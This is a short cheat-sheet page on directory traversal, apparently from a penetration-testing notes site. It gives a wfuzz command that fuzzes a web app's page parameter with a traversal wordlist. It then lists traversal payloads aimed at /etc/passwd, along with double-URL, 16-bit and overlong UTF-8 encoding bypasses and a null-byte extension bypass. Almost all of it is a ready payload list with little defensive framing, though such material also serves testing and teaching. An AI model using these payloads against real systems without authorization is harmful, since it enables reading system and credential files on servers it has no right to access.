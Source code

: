 ```yaml
---
title: "Directory Traversal"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```

```
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```
### Examples:

* ../../../etc/passwd
* ....//....//....//etc/passwd
* .%252f..%252f..%252fetc/passwd
* /var/www/images/../../../etc/passwd
* ./../../etc/passwd%00.png
### Try non-standard encoding:
* . = %2e
* / = %2f
* \ = %5c
### 16-bit:
* . = %u002e
* / = %u2215
* \ = %u2216
### Double URL:
* . = %252e
* / = %252f
* \ = %255c
### UTF-8:
* . = %c0%2e, %e0%40%ae, %c0ae
* / = %c0%af, %e0%80%af, %c0%2f
* \ = %c0%5c, %c0%80%5c

If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension.

For example: filename=../../../etc/passwd%00.png